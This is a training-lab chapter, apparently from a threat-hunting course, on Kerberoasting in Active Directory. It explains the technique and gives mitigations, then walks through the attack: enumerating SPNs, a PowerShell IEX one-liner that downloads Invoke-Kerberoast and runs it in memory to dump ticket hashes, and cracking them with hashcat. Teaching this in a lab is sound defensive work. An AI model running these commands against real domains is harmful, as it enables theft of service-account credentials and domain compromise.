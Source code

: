 # Chapter 2.2 - Kerberoasting

> **So why is Kerberoasting so interesting :**
>
>- can be performed from any ***domain joined machine***.
>- user needs no special privileges to request a service ticket - ***ANY*** authenticated user can do this.
>- The target system doesn't even need to be available or even exist anymore, if the SPN (service account that exists is enough).
>- Very hard to spot as this blends in with other service ticket requests.
>- Cracking the ticket happens ***off-line***.

**Here's the gist of it:**

Part of a TGS requested for any SPN, is encrypted with the **NTLM hash of that service account’s plaintext password**, any user can request these TGS tickets and then crack hash of the service account offline, without the risk of account lockout!

# HIGH LEVEL OVERVIEW OF KERBEROS
---

![image](./images/00_kerberos1.jpg)
<div style="text-align: right"><font size="2">Image by SpecterOps (Will Shroeder)</font></div>

---

![image](./images/00_kerberos2.jpg)
<div style="text-align: right"><font size="2">Image by SpecterOps (Will Shroeder)</font></div>

---

>**Kerberoasting mitigations:** The best way to prevent adversaries from cracking kerberos tickets is by using very long and complex passwords. Service Accounts should have a minimum of **25 characters**, make sure to frequently **rotate** the passwords and adhere to the **least privilege** principle when assigning rights to the account (i.e. Don't add the account to Domain Admins just because it's easy). You can also consider using Group Managed Service Accounts (**GSMA**) or another third-party product such as a password vault.

The table below shows you the average time it would take to brute-force a password, keep in mind these numbers only reflect hard brute forcing, so not using password dictionaries or rainbox tables.

---

![Screenshot](./images/kerberoast_01.jpg)

---

A Few useful **CLI** commands:

|command|Details|
|---|---|
|**net user SVC_SQL /domain**|*Query DC for user details.*|
|**net user SVC_SQL Password123!**|*Set the password of a domain user to Password123.*|
|**net user /add /domain /active:yes SVC_SQL Password123!**|*Add a user to the domain, enable the account and set the password.*|
|**net user SVC_SQL /domain /active:no**|*Disable (or enable) a domain account*|
|**net group "domain admins" SVC_SQL /ADD /DOMAIN**|*Add account to "Domain Admins" (or any other group).*|
|**setspn -T acme -Q \*/\***|*Enumerate all Service Principal Names (SPN), to find service accounts.*|
|**setspn -A SVC_SQL/dc.acme.local:12345 acme\SVC_sql**|*Create an SPN for an account.*|

---

And the same in **POWERSHELL**:

|command|Details|
|---|---|
|**$secpasswd = ConvertTo-SecureString -String "Password123" -AsPlainText -Force**|*Put the password in a variable.*|
|**New-ADuser -Name 'SVC_SQL' -GivenName 'SVC' -Surname 'SQL' -DisplayName 'SVC_SQL' -AccountPassword $secpasswd -enabled 1**|*Add a user to the domain, enable the account and set the password.*|

---

So now let's set up our lab environment by creating a kerberoastable account that has a weak password.

First of all open a new command prompt and let's make sure we have domain admin privileges, needed for creating an account in the domain. The ***password*** for DA_student = student.

```yaml
runas /user:DA_student@acme.local cmd.exe
```

Now we are running a command prompt under DA_student account.

```yaml
net user /add /domain /active:yes SVC_SQL Password123!
```

This will create a new user, activates the account and sets the password to "Password123!".

```yaml
setspn -A SVC_SQL/dc.acme.local:12345 acme\SVC_sql
```

The setspn -A command will set up the SPN for the service account, in this case for a service on the domain controller (dc.acme.local) on port 12345.

Let's check if the SPN was correctly registered:

```yaml
setspn -T acme -Q */*
```

![image](./images/02_getspnexe.jpg)

# KERBEROASTING IN ACTION
---

- source: ***[GetUserSPNs.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)*** - link

Let's see which **SPN**'s exist and to which groups they belong, let try to get some parent process activity going. Open a **command** prompt:

```yaml
powershell.exe -NoP -NonI -Exec Bypass -command "c:\labs\4_KERBEROAST\GetUserSPNs.ps1"
```

![image](./images/02_getspns_pwsh.jpg)

Now let's request a ticket for those SPN's, by running the one-liner below you're again doing the attack in a file-less manner by downloading the Invoke-Kerberoast powershell script directly into the memory of `powershell.exe`:

- source: ***[Invoke-Kerberoast.ps1](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)*** - link

Open a **powershell** prompt (as Administrator):

```yaml
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1");Invoke-Kerberoast
```

![image](./images/02_Invoke_Kerb_pwsh.jpg)

Let's run it locally and save the hashes, this will avoid copy/paste errors, open a **powershell** prompt:

```yaml
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/crimsoncore/threathunt_student/master/labs/4_KERBEROAST/Invoke-Kerberoast.ps1');
```

```yaml
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
![image](./images/02_IEX_KERB.jpg)

So by default this will ***enumerate amd rquest tickets for ALL SPN's*** on a domain, this of course is suspicious as a user would never to request all those tickets at the same time. A more stealthy adversary will first do his recon (GetUserSPN's for example) and see which service accounts might prove juicy targets, and then just request a **single SPN**:

In the SAME **powershell** prompt:

```code
invoke-kerberoast -Identity SVC_sql
```

> Invoke-Kerberoast's default output is for **John** (the password cracker installed by default on Kali), you need to change the output format to **HashCat** in order to crack the hashes with hashcat.

On your `Windows 10 machine` use WinSCP to transfer ***hashes.kerberoast*** to your Ubuntu machine under the path ***"/opt/kerberos/"*** :

Or you can use SCP to copy the file over:

```yaml 
scp Top1000.txt root@192.168.18.204:/opt/kerberos/Top1000.txt
```

> **IMPORTANT**: If you want to run this attack multiple times, don't forget to purge your Kerberos tickets. Kerberos Tickets are cached for SSO purposes, so if you run the Invoke-Kerberoast script multplie times, your client will not request a new TGS from the DC when it still has one in it's cach.
>
> You can view and clear the cache with these commands:

```yaml
klist
```
```yaml
klist purge
```

![image](./images/00_klistpwsh.jpg)

![image](./images/00_klist_purge.jpg)

# CRACKING HASHES USING HASHCAT
---

On your `Ubuntu Machine` we're going to use hashcat to crack the hashes

First let's install hashcat

```yaml
sudo apt update
apt install hashcat
```

```yaml
cd /opt/kerberos
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords.txt --potfile-disable -o cracked.txt
```

To clear the cache:

```yaml
hashcat --remove hashes.kerberoast
```

To clear the potfile
```yaml
sudo rm ~/.hashcat/hashcat.potfile
```



